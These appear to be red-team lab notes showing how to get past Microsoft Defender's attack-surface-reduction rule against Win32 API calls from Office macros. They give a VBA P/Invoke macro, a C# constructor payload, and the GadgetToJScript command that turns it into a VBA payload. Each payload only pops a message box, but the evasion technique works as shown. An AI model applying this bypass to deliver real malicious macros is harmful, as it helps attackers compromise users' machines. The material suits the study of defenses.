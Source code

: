 _"This rule prevents VBA macros from calling Win32 APIs."_

Many popular tools, such as [VBA-RunPE](https://github.com/itm4n/VBA-RunPE), use P/Invoke within VBA to carry out actions such as process injection.  The way this rule is implemented seems rather odd.  If you create a word document and attempt to pop a message box, it will work.

Private Declare PtrSafe Function MessageBoxA Lib "user32.dll" (ByVal hWnd As Long, ByVal lpText As String, ByVal lpCaption As String, ByVal uType As Long) As Long

Sub Exec()
    Dim Result As Long
    Result = MessageBoxA(0, "This is a test", "Hello World", 0)
End Sub

![[67. Block Win32 APIs.png]]

However, as soon as you try to save it to disk, Defender will block it.

![[68. Block Win32 APIs.png]]

I believe the rationale is that whenever you're sent a file, or you download one via a browser, Defender will delete it before it can be saved.  Even if you "open" a document from a browser, rather than "save" it, a temporary file is dropped to disk.  After some testing, I found that this rule only seems to be enforced when you P/Invoke directly from VBA - and not when it's done via [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript).

Create a new .cs file and enter the code you want to execute.  G2JS requires the code to execute be in the constructor.

using System;
using System.Runtime.InteropServices;

public class Program
{
    [DllImport("user32.dll", CharSet = CharSet.Unicode)]
    static extern int MessageBoxW(IntPtr hWnd, string lpText, string lpCaption, uint uType);

    public Program()
    {
        MessageBoxW(IntPtr.Zero, "Hello from GadgetToJScript", "Hello World", 0);
    }
}

  

When we run G2JS, we provide the source code and specify the output type.

C:\Tools\GadgetToJScript>GadgetToJScript\bin\Debug\GadgetToJScript.exe -c TestAssembly\Program.cs -o C:\Users\Administrator\Desktop\vba -w vba -b
[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba

  

Copy the content of the VBA file, paste it into Word on WKSTN-2 and execute.

![[69. Block Win32 APIs.png]]
This document will save to disk - although Defender may complain about the content, it's thanks to a static G2JS signature, rather than anything to do with P/Invoke or APIs.